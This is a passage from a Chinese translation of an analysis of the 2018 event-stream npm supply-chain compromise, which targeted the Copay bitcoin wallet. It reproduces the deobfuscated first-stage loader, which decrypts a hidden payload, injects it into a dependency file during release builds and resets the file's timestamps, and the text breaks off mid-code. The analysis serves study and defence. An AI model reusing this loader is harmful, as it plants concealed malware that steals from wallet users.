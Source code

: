 > * 原文地址：[Compromised npm Package: event-stream](https://medium.com/intrinsic/compromised-npm-package-event-stream-d47d08605502)
> * 原文作者：[Thomas Hunter II](https://medium.com/@tlhunter?source=post_header_lockup)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/TODO1/compromised-npm-package-event-stream.md](https://github.com/xitu/gold-miner/blob/master/TODO1/compromised-npm-package-event-stream.md)
> * 译者：[CoderMing](https://github.com/coderming)
> * 校对者：[格子熊](https://github.com/KarthusLorin), [caoyi](https://github.com/caoyi0905)

# 被污染的 npm 包：event-stream

![](https://cdn-images-1.medium.com/max/800/1*OB_BwZtUSGuM15X6xFsrWw.png)

一个著名的 npm 包 [`event-stream`](https://github.com/dominictarr/event-stream) 的作者，将其转让给了一个恶意用户 [right9ctrl](https://github.com/right9ctrl)。这个包每个月有超过 [150 万](https://www.npmjs.com/package/event-stream) 次下载，同时其被 1,600 个其它的 npm 包依赖。恶意用户通过持续地向这个包贡献代码来获得了其原作者的信任。这个 npm 包由恶意用户发布的第一个版本时间是 2018 年 9 月 4 日。

恶意用户修改了 `event-stream`，让其依赖了一个恶意 npm 包 [`flatmap-stream`](https://github.com/hugeglass/flatmap-stream)。这个 npm 包是专门针对这次攻击所制作的。它包括了一个相当简单的 `index.js` 文件，同时也有一个压缩版的 `index.min.js` 文件。在 GitHub 上，这两个文件看起来完全没问题。然而，在 npm 上发行的代码并没有被要求与 git 仓库中所存储的代码相同。

这个被插入到 `event-stream` 中的恶意 npm 包在 10 月 20 日被其他用户发现并在 [dominictarr/event-stream#116](https://github.com/dominictarr/event-stream/issues/116#issuecomment-441759047) 中曝光。这个 issue 在恶意 npm 包发布两个月后才被创建。开源软件的一大好处是能够集众多开发者之力，但这并不是毫无坏处的。例如 OpenSSL，这个开源项目有着几乎最严格的代码审查，但是其仍然有许多不足之处，例如 Heartbleed 漏洞（译者注：可参考 http://heartbleed.com/）。

### 恶意 npm 包做了什么？

该恶意 npm 包是一种针对性很强的攻击。它最终会对一个开源 App [bitpay/copay](https://github.com/bitpay/copay) 发起攻击。该 App 的 README 中提到：**Copay 是一个支持桌面端和移动端的安全比特币钱包平台**。我们知道恶意 npm 包只针对这个应用是因为其会读取项目 `package.json` 文件中的 `description` 字段，并用其去解码一个 **AES256** 加密的代码段。

对于其他项目，`description` 字段不能够用于给加密代码段解密，之后 hack 操作将会悄悄终止。而 [bitpay/copay的 description 字段](https://github.com/bitpay/copay/blob/90336ef9fb4cc3a90a026827be27a32348d3615c/package.json#L3)，也就是 `A Secure Bitcoin Wallet`，是解密这些数据（加密代码段）的 key。

 `flatmap-stream` 这个包巧妙地将数据隐藏在了 `test` 文件夹中。这个文件夹在 GitHub 不可见但却出现在了实际的 [`flatmap-stream-0.1.1.tgz`](https://registry.npmjs.org/flatmap-stream/-/flatmap-stream-0.1.1.tgz) 包中。这些加密的数据以一个数组的形式存储，数据的每一部分都被压缩及混淆过，同时也以不同的参数进行了加密。一部分加密的数据包括了一些会被静态数据统计工具警告为恶意行为的方法名，例如 `_compile` 这个在 `require` 中意味着创建一个新 Module 的字符串。在下面两段示例代码中，我尽我所能去清理了这些文件让代码更易读。

这是第一部分。它不怎么有意思，最有可能出现于一个 bootstrap 内的函数来用于引入第二段代码。它看起来是通过修改子模块中的一个名为 `ReedSolomonDecoder.js` 的子模块来使用的。如果该文件中已经有了 `/*@@*/` 这个字符串，那么它就什么都不做。如果尚未对其进行修改，那么它不仅会修改文件，还会将访问权限和修改后的时间戳替换为原来的值。这样做的话，当你看你磁盘中的文件时，你就不会注意到它已经被修改了。

```
/*@@*/
module.exports = function (e) {
  try {
    if (!/build\:.*\-release/.test(process.argv[2])) return;
    var desc = process.env.npm_package_description;
    var fs = require("fs");
    var decoderPath = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js";
    var decoderStat = fs.statSync(decoderPath);
    var decoderSource = fs.readFileSync(decoderPath, "utf8");
    var decipher = require("crypto").createDecipher("aes256", desc);
    var s = decipher.update(e, "hex", "utf8");
    s = "\n" + (s += decipher.final("utf8"));
    var a = decoderSource.indexOf("\n/*@@*/");
    if (0 <= a) {
      (decoderSource = decoderSource.substr(0, a));
      fs.writeFileSync(decoderPath, decoderSource + s, "utf8");
      fs.utimesSync(decoderPath, decoderStat.atime, decoderStat.mtime);
      process.on("exit", function () {
        try {
```